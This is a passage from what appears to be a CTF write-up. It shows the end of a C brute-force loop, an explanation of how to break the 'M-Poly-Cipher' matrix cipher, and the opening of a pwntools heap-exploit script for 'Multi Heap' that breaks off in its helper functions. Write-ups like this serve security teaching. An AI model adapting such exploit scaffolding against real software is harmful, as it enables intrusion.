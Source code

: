 ```c
        {
            for (c = begin; c < end; c++)
            {
                for (d = begin; d < end; d++)
                {
                    crack(chars[a], chars[b], chars[c], chars[d]);
                }
            }
        }
        printf("a: %c\n", chars[a]);
    }
}


```

## M-Poly-Cipher (Reverse, Crypto) 279pt

This cipher algorithm is as follows.

- genkey
  1. Generate 8x8 matrices $K1, K2, K3, P$.
  2. The first 4 rows of $K1$ and $K2$ and all elements of $P$ is generated randomly. The last 4 rows of $K1$ and $K2$ are linear correlated with their first 4 rows.
  3. Find $K3$ that satisfies $K1*P*P+K2*P+K3=0$.
  4. $K1, K2, K3$ are public keys. $P$ is private key.
- encrypt
  1. A = convert_to_matrix(text)
  2. Generate random matrix S.
  3. $E1 = S * K1, E2 = S * K2, E3 = A + S * K3$
  4. $E1, E2, E3$ are encrypted text
- decrypt
  1. $A = E1*P*P + E2*P + E3$
  2. text = convert_to_text(A)

We can solve $S$ through $S = (E1 + E2) * ((K1 + K2)^{-1})$. Then $A = E3 - S * K3$.

## Multi Heap (Pwn) 279pt

```python
from pwn import *
context.log_level = 'debug'

def Alloc(which, size, where):
    p.recvuntil('Your choice: ')
    p.sendline('1')
    p.recvuntil('Which: ')
    p.sendline(which)
    p.recvuntil('Size: ')
    p.sendline(str(size))
    p.recvuntil('(m/t): ')
    p.sendline(where)

def Free(idx):
    p.recvuntil('Your choice: ')
    p.sendline('2')
    p.recvuntil('Index: ')
    p.sendline(str(idx))

def Free_s(idx):
    return '2\n' + str(idx) + '\n'

def Write(idx):
    p.recvuntil('Your choice: ')
```